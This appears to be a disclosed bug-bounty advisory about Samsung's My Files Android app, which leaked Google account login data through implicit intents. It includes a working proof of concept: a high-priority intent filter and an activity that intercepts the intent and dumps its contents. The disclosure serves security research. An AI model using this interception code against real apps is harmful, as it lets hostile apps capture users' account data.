

# Details

<table>
    <tr>
        <td>Name</td>
        <td>My Files</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.sec.android.app.myfiles</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.30</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2023.02.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Low</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td>N/A</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$330</td>
    </tr>
</table>

# Description

Oversecured report:


Oversecured found the My Files app using implicit intents to launch activities. They contained an intent for Google Drive login from the Google SDK, which exposed user data. These intents could have been intercepted by any third-party apps installed on the same device.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<activity android:name=".InterceptActivity" android:exported="true">
    <intent-filter android:priority="999">
        <action android:name="com.sec.android.intent.action.passwd_check_google_account" />
        <category android:name="android.intent.category.DEFAULT" />
    </intent-filter>
</activity>
```

File `InterceptActivity.java`:
```java
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);

    DumpUtils.dump(getIntent(), getForeignClassLoader(getCallingPackage()));
    finish();
}

private ClassLoader getForeignClassLoader(String packageName) {
    try {
        return createPackageContext(packageName, CONTEXT_INCLUDE_CODE | CONTEXT_IGNORE_SECURITY)
                .getClassLoader();
    } catch (Throwable th) {
        throw new RuntimeException(th);
    }
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)
